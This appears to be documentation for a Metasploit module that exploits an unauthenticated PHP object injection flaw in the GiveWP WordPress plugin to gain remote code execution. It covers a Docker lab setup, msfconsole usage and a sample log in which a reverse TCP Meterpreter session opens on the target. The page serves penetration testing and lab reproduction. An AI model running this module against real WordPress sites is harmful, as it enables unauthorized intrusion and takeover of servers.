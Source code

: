 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object that can lead to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Use the following `docker-compose.yml` file to set up a vulnerable WordPress environment.

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

2. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.14.1](https://downloads.wordpress.org/plugin/give.3.14.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

3. **Create a Donation Form**:
  - Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
  - Select any form.
  - Configure the form as needed, publish it.

## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 > use exploit/multi/http/wp_givewp_rce 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:8888

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.3.2
[+] Detected GiveWP Plugin version: 3.14.1
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 8, 10, 13
[*] Using Form ID: 13 for exploitation.
[*] Sending stage (3045380 bytes) to 172.24.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.24.0.3:51272) at 2024-08-27 22:11:22 +0200

meterpreter > sysinfo 
Computer     : 172.24.0.3
OS           : Debian 11.8 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
